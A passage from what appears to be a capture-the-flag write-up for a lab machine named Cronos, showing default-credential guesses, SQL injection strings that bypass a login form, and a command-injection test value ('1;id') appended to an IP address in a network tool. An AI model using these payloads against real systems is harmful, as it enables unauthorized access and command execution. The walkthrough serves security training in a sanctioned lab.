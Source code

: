 We try some basic creds including the following, all without success:

> admin:admin
>
> admin:adminadmin
>
> admin:password
>
> admin:cronos
>
> cronos:cronos

### Command Execution via SQLi:

Let's test the login form for SQLi:

> admin' or 1=1-- -
>
> admin' or '1'='1-- -
>
> admin') or '1'='1-- -

![](<../../.gitbook/assets/9 (5).JPG>)

Using the first entry above, we bypass the login form, to find a network tool.

![](<../../.gitbook/assets/10 (2).JPG>)

Let's see if we can execute commands with this tool by trying the following:

> 10.10.14.6 -c 1;id

